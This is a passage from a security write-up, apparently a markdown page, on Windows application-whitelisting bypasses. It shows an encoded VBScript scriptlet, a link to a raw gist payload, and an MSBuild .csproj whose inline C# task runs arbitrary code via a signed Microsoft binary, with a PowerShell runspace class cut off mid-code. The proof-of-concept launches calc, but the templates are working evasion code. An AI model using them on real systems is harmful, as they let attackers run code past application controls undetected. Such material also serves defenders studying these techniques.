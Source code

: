 


### code-demon.png

``` stylus
<scriptlet>
	<script language="VBScript.Encode">
			#@~^NAAAAA==O/O,',ZDlDnr(LnmD`E	UmDb2Yc?tssJ*R"EU`E^mV^Ra+r#ahEAAA==^#~@ 
	</script>
</scriptlet>
```

Links:
https://twitter.com/enigma0x3/status/923311244358094848


https://gist.githubusercontent.com/enigma0x3/2e4f571fe76715640d0f8126f321ba07/raw/73c962d65059a211b5d7ea212e9a1054d632622b/new.txt





## 3.msbuild.exe 

``` stylus
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe  secist.csproj
```



### Code  secist.csproj
``` stylus
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes c# code. -->
  <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe powaShell.csproj -->
  <Target Name="Hello">
   <ClassExample />
  </Target>
    <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
     <Reference Include="C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll" />
     <!-- Your PowerShell Path May vary -->
      <Code Type="Class" Language="cs">
        <![CDATA[
            using System;
            using System.Reflection;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;            
            using System.Collections.ObjectModel;
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;
            using System.Text;                 
            public class ClassExample :  Task, ITask
            {
                public override bool Execute()
                {
                    System.Diagnostics.Process.Start("calc");
                    return true;
                }
            }
            public class powaShell
            {
                public static string RunPSCommand()
```